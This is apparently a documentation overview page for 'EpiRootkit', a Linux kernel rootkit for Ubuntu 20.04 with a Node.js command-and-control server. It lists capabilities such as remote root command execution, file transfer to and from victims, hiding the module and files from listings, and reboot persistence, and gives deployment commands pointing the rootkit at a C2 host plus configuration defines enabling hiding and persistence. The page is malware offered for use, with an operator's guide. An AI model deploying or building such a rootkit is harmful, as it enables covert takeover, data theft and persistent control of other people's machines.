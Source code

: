 ```yaml
---
title: "EpiRootkit Overview"
description: "Linux kernel rootkit for Ubuntu 20.04 / kernel 5.4.0"
icon: "shield"
date: "2025-05-25T16:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 501
---
```




## Features

- **C2 Communication**: TCP connection with domain support and XOR encryption
- **DNS Resolution**: Kernel-space domain name resolution
- **Remote Commands**: Execute shell commands with output capture
- **File Transfer**: Upload/download files between C2 and victim
- **Authentication**: SHA-512 password verification with rate limiting
- **XOR Encryption**: 32-byte key encryption for all C2 traffic
- **Sysfs Interface**: Linux-native configuration using octal permission system
- **Stealth**: Hide module from `lsmod` and files from directory listings
- **Persistence**: Multiple mechanisms to survive reboots

## Quick Demo

```bash
# 1. Build and deploy with XOR encryption enabled
cd rootkit && make
sudo ./deploy_rootkit.sh address=c2.example.com port=443

# 2. Start C2 server  
cd attacking_program && pnpm start

# 3. Use rootkit (all communication XOR encrypted)
auth Client-1 password
# SUCCESS: Authentication successful

exec Client-1 whoami
# Exit code: 0
# Output: root

status Client-1
# EpiRootkit Status: Version 1.0.0, Module Hidden: YES, Encryption: XOR

# 4. Configure via permission bits (feature toggles)
sudo chmod 607 /sys/kernel/epirootkit/control      # rwx = all features enabled
cat /sys/kernel/epirootkit/control                  # Check status
```

## Architecture

### Core Components
- **Network Layer**: Connection management and DNS resolution
- **Command System**: Authentication and remote execution
- **Stealth Features**: Module and file hiding
- **Persistence**: Boot survival mechanisms

### Communication Flow
```
C2 Server  ←→  Network/DNS  ←→  EpiRootkit  ←→  Linux Kernel
(Node.js)      (TCP/UDP)       (Module)        (System Calls)
```

## Technical Stack

- **Target**: Ubuntu 20.04 LTS, kernel 5.4.0, x86_64
- **Language**: C (kernel module) + Node.js (C2 server)
- **APIs**: ftrace, kretprobe, VFS, UDP sockets
- **Network**: TCP (C2) + UDP (DNS resolution)
- **Encryption**: XOR cipher with 32-byte hardcoded key
- **Authentication**: SHA-512 with rate limiting (5 attempts/60s)

## Configuration

Edit `rootkit/core/config.h`:
```c
#define C2_SERVER_ADDRESS "c2.example.com"  // Domain or IP
#define C2_SERVER_PORT 4444
#define ENABLE_PERSISTENCE 1       // Auto-install persistence
#define ENABLE_MODULE_HIDING 1     // Hide by default
#define ENABLE_FILE_HIDING 1       // Hide files with prefixes
```

## Documentation

- **[Deployment](./deployment.md)**: Build and load with domain support
- **[Connection](./connection-authentication.md)**: Network communication and XOR encryption
- **[XOR Encryption](./features/encryption.md)**: XOR encryption implementation
- **[DNS Resolution](./features/dns-resolution.md)**: Domain name resolution
- **[Commands](./features/command-execution.md)**: Remote command execution
- **[File Transfer](./features/file-transfer.md)**: Upload/download files
- **[Stealth](./features/hiding.md)**: Module and file hiding
- **[Persistence](./features/persistence.md)**: Boot survival mechanisms



